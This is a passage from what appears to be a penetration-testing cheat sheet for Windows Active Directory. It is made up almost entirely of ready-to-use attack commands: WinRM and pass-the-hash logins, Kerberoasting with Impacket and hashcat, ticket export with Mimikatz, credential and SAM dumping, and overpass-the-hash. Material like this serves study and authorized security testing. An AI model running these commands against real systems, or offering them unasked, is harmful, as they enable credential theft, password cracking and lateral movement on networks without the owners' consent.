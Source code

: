 
Try to connect using Windows Remote Management
> crackmapexec winrm \<ip> -U \<user> -p \<password>

Try to connect using pass-the-hash (the user needs to have administrative rights)
> pth-winexe -U \<user>%\<hash>%\<SMB-share-in-UNC-format> //\<ip> cmd

<br>

### Kerberoasting
Two different ways to perform this attack.

1. From your attacking machine, using Impacket
    > impacket-GetUserSPNs -dc-ip \<ip> \<domain>/\<user>

    If successful
    > impacket-GetUserSPNs -dc-ip \<ip> \<domain>/\<user> --request

    To crack the hash
    > hashcat -m 13100 -a 0 \<hash> \<wordlist> --force 

2. On the target machine, using Mimikatz
   
   Generate tickets in Powershell
   > Add-Type -AssemblyName System.IdentityModel 
   >
   > New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList '\<service>/\<hostname>.\<domain>.com'
   > 
   > klist

   In Mimikatz 
   > kerberos::list /export

   Grab the tickets and crack them
   > python /usr/share/kerberoast/tgsrepcrack.py \<wordlist> \<tickets>

<br>

### Mimikatz & pivoting
If you managed to get access on the machine and you are able to transfer Mimikatz, you can use the following commands.
> privilege::debug 

**Dump credentials of all logged-in users**
> 
> sekurlsa::logonpasswords
> 
> lsadump::lsa /patch

**Dump the SAM database (equivalent to hashdump in a Meterpreter shell)**
> token::elevate 
> 
> lsadump::sam

**Overpass-the-hash**
> sekurlsa::pth /user:\<username> /domain:\<domain-name> /ntlm:\<ntlm-hash> /run:PowerShell.exe
